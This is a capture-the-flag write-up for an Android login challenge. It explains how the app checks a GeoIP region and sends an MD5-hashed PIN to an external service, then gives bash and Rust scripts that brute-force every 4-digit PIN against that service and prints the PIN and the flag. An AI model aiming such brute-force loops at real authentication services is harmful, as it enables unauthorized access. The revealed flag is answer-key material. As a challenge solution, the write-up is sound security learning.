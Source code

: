 # Geo IP Restricted Login - Android

> Author : jul0105
> Date : 12.04.2021



## Challenge info

**Release** : Bundle 4 (10.04)

**Difficulty** : Medium

**Goal** : You must login into the app to get the flag. But be aware, the login is restricted to people located in Zermatt (CH) only. As the app trust all people in Zermatt, a 4 digit PIN will do.



## Static analysis

1. This application request the following URL to get GeoIP informations : https://ipinfo.io/json. Here are the important informations returned :

```json
{
  "region": "Vaud",
  "country": "CH",
}
```

In our case, we want the region to be "Zermatt" to be able to login. (Note: I blocked a long time on this thinking that the valid string should be "Valais". Thankfully, I saw the clarification on Discord.)



2. The actual PIN is checked with an external service. A request is made to `ja3er.com` with the following format :

```
https://ja3er.com/img/<hash>
Where <hash> is MD5(CH.Zermatt.<PIN>)
```

If the hash is valid, a string is given by the service. This string is our flag.



## Solving

Since the PIN is only 4-digit long, it is easily bruteforcable. I made this simple bash script that test the 10'000 possibles PIN : 

```bash
#!/bin/bash

# Setup reference output
curl "https://ja3er.com/img/$(printf "CH.Zermatt.%04d" 0000 | md5sum | cut --bytes=-32)" > output 2> /dev/null

# Loop over 4 digit PIN
for i in {0..9999}
do
    printf "CH.Zermatt.%04d\n" $i
    
    # Get response from external service
    curl "https://ja3er.com/img/$(printf "CH.Zermatt.%04d" $i | md5sum | cut --bytes=-32)" > output2 2> /dev/null
    
    # Compare response with reference. If different, it might be the valid PIN
    diff output output2
done
```

And here we found that the PIN is `2021` and the Flag is :

```
SCS21{R3wire-Your-Br@in-Cr@ck-The-Ch@lleng3s}
```





## Appendix

For reference, I also made a very dirty rust program (way faster than bash) to solve this challenge because I initially thought that the PIN could be alphanumerical :

```rust
use md5;
use rayon::prelude::*;

lazy_static::lazy_static! {
     static ref CHARSET: [char; 62] = [
         'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
         'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
         'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
         'w', 'x', 'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
     ];
}

fn main() {
    println!("Starting...");
    let a: Vec<i32> = (0..(CHARSET.len() as i32).pow(4)).into_par_iter()
        .filter(|x| test_pin(convert_to_pin(x).as_str())).collect();

    println!("{:?}", a)
}

fn convert_to_pin(num: &i32) -> String {
    let charset_size: i32 = CHARSET.len() as i32;

    format!("{}{}{}{}",
                    CHARSET[((num % charset_size.pow(4)) / charset_size.pow(3)) as usize],
                    CHARSET[((num % charset_size.pow(3)) / charset_size.pow(2)) as usize],
                    CHARSET[((num % charset_size.pow(2)) / charset_size) as usize],
                    CHARSET[(num % charset_size) as usize]
    )
}

fn test_pin(pin: &str) -> bool {
    let str: String = format!("CH.Zermatt.{}", pin);
    let digest = md5::compute(str);
    let url: String = format!("https://ja3er.com/img/{:?}", digest); // TODO /search/ or /img/

    let res = reqwest::blocking::get(&url).unwrap();

    let s = String::from_utf8(res.bytes().unwrap().to_ascii_lowercase()).unwrap();

    match  s.find("sorry the requested file could not be found on this server.") {
        Some(27278) => false,
        Some(_) => {
            println!("[+] PIN: {} -> {}", pin, url);
            true
        },
        None => {
            println!("[+] PIN: {} -> {}", pin, url);
            true
        },
    }
}
```

Cargo.toml :

```toml
[package]
name = "Solve"
version = "0.1.0"
authors = ["jul0105 <>"]
edition = "2018"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
md5 = "0.7.0"
reqwest = { version = "0.11.2", features = ["blocking"] }
rayon = "1.5.0"
lazy_static = "1.4.0"
```

